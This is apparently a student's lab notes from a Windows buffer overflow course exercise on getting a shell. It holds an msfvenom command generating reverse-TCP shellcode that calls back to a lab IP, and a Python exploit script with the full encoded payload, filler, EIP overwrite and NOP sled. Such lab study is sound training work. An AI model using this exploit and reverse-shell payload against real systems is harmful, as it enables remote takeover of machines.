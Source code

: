 After running the code we end at our JMP ESP breakpoint
![[course notes/images/11_windows_buffer_overflow/jmp_breakpoint.png]]

Stepping into this command sends us to the "D" placeholder, signifying a successful jump.
![[D_copied.png]]

# 11.2.13 Getting a Shell
#### Exercises

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_

1.  Update your PoC to include a working payload.
In order to generate shellcode we will be using MSFVenom, the following command can be used to generate our shellcode. Note the bad characters discovered earlier which the encoder will avoid using.
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.233 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`

(Note: I was only able to achieve a reverse shell using "EXITFUNC=thread")

![[msfvenom_shellcode.png]]

The shellcode has now been generated and can be added to our PoC.
```python
#!/usr/bin/python2
import socket

try:
  print "\nSending shellcode"

  buf = ("\xdb\xd6\xd9\x74\x24\xf4\xbd\x93\xef\x2f\xe1\x5a\x33\xc9\xb1"
"\x52\x83\xc2\x04\x31\x6a\x13\x03\xf9\xfc\xcd\x14\x01\xea\x90"
"\xd7\xf9\xeb\xf4\x5e\x1c\xda\x34\x04\x55\x4d\x85\x4e\x3b\x62"
"\x6e\x02\xaf\xf1\x02\x8b\xc0\xb2\xa9\xed\xef\x43\x81\xce\x6e"
"\xc0\xd8\x02\x50\xf9\x12\x57\x91\x3e\x4e\x9a\xc3\x97\x04\x09"
"\xf3\x9c\x51\x92\x78\xee\x74\x92\x9d\xa7\x77\xb3\x30\xb3\x21"
"\x13\xb3\x10\x5a\x1a\xab\x75\x67\xd4\x40\x4d\x13\xe7\x80\x9f"
"\xdc\x44\xed\x2f\x2f\x94\x2a\x97\xd0\xe3\x42\xeb\x6d\xf4\x91"
"\x91\xa9\x71\x01\x31\x39\x21\xed\xc3\xee\xb4\x66\xcf\x5b\xb2"
"\x20\xcc\x5a\x17\x5b\xe8\xd7\x96\x8b\x78\xa3\xbc\x0f\x20\x77"
"\xdc\x16\x8c\xd6\xe1\x48\x6f\x86\x47\x03\x82\xd3\xf5\x4e\xcb"
"\x10\x34\x70\x0b\x3f\x4f\x03\x39\xe0\xfb\x8b\x71\x69\x22\x4c"
"\x75\x40\x92\xc2\x88\x6b\xe3\xcb\x4e\x3f\xb3\x63\x66\x40\x58"
"\x73\x87\x95\xcf\x23\x27\x46\xb0\x93\x87\x36\x58\xf9\x07\x68"
"\x78\x02\xc2\x01\x13\xf9\x85\xed\x4c\x76\xbf\x86\x8e\x78\x3e"
"\xec\x06\x9e\x2a\x02\x4f\x09\xc3\xbb\xca\xc1\x72\x43\xc1\xac"
"\xb5\xcf\xe6\x51\x7b\x38\x82\x41\xec\xc8\xd9\x3b\xbb\xd7\xf7"
"\x53\x27\x45\x9c\xa3\x2e\x76\x0b\xf4\x67\x48\x42\x90\x95\xf3"
"\xfc\x86\x67\x65\xc6\x02\xbc\x56\xc9\x8b\x31\xe2\xed\x9b\x8f"
"\xeb\xa9\xcf\x5f\xba\x67\xb9\x19\x14\xc6\x13\xf0\xcb\x80\xf3"
"\x85\x27\x13\x85\x89\x6d\xe5\x69\x3b\xd8\xb0\x96\xf4\x8c\x34"
"\xef\xe8\x2c\xba\x3a\xa9\x4d\x59\xee\xc4\xe5\xc4\x7b\x65\x68"
"\xf7\x56\xaa\x95\x74\x52\x53\x62\x64\x17\x56\x2e\x22\xc4\x2a"
"\x3f\xc7\xea\x99\x40\xc2")


  filler = "A" * 780
  eip = "\x83\x0c\x09\x10"    #0x10090c83
  offset = "C" * 4
  nops = "\x90" * 10
#  buffer = "D" * (1500 -len(filler) - len(eip) - len(offset))

  inputBuffer = filler + eip + offset + nops + buf
```